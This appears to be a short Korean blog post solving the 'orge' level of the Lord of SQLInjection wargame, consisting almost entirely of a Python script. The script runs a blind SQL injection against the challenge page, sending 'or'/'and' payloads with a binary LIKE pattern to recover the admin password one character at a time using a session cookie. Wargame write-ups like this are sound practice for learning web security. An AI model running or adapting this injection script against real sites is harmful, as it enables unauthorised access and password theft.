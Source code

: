 ```yaml
---
title: "LOS 7번"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j)=='%' or chr(j)=='_': continue
    params = {"pw":"' || id='admin' && binary pw like '{}%".format(st+chr(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text:
      print(chr(j))
      st+=chr(j)
      break
print(st)
{% endhighlight %}

